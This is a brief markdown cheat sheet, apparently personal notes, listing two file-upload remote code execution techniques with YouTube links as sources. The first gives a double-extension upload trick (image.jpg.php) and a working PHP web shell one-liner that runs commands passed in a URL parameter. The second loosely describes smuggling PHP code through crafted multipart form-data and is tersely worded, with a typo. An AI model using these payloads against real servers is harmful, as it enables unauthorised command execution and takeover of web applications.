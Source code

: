 
# RCE using image bytes with php code
```python
- upload image.jpg.php
- on the first line of bytes of the image, add the php code <?=`$_GET['cmd']`?>

source: https://www.youtube.com/watch?v=4eGByP9mIH0
```


# RCE via custom multiple form-data
```python
- copy the number of each form-data
- upload a content-disposition and content-type with phph file code as content

source: https://www.youtube.com/watch?v=XyE6yTDFQ68
```














